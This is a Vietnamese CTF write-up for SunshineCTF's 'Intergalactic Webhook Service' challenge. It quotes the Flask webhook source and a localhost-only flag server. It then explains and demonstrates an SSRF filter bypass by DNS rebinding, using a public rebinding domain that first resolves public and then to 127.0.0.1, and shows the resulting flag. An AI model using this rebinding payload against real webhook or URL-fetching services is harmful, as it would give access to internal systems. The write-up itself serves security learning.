



# **Intergalactic Webhook Service**



Bài này có source nên có thể tham khảo source ở đây: [Writeup_SunshineCTF/src at main · TranDongA3/Writeup_SunshineCTF](https://github.com/TranDongA3/Writeup_SunshineCTF/tree/main/src)

Bài này thì có 2 chức năng chính sau:


```
@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200
```

```python
@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Đăng ký webhook, và kích hoạt webhook id trả về từ đăng ký.

Ngoài ra còn có hàm phụ như là:

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

Hàm này để check url thôi, hàm urlparse(url) dùng để tách các phần của url để kiểm tra tính hợp lệ , ip sẽ tiến hành lấy ip từ tên miền bằng hàm socket.gethostbyname(host)nếu mà thuộc những trường hợp kiểm tra như trên thì trả về False.

Nếu mà thành công thì trả về:

return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

Và có thể lấy id này để trigger đến URL . Ở đây mục tiêu flag của chúng ta đang nằm ở [localhost](http://localhost) :

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

Có một luồng được khởi tạo song song với chương trình chạy ở [localhost](http://localhost) cồng 5001, thực hiện function FlagHanlder, nếu nếu là /flag thì sẽ trả về nội dung của nó . Lỗi này sẽ thấy rõ luôn là SSRF cụ thể là dùng kỹ thuật DNS rebinding để khai thác.

Cơ bản về kỹ thuật đó chính là dùng một tên miền ban đầu phân giải sẽ được một địa chỉ ip public như 8.8.8.8 (hoặc khác) nhưng mà lần sau sẽ phân giải ra là 127.0.0.1 . Để hiện thực hóa kỹ thuật đó ta sẽ dùng một dịch vụ có sẵn là : http://1u.ms/

Ta thử : 



Quá hay đúng không. Cụ thể hơn sẽ là trường hợp này:

http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag



Sau khi đăng ký trả về như này:

`{"id":"2ce6a28c-f69c-4b59-9d75-38d306734406","status":"registered","url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`

Lấy id để trigger thì được:

`{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`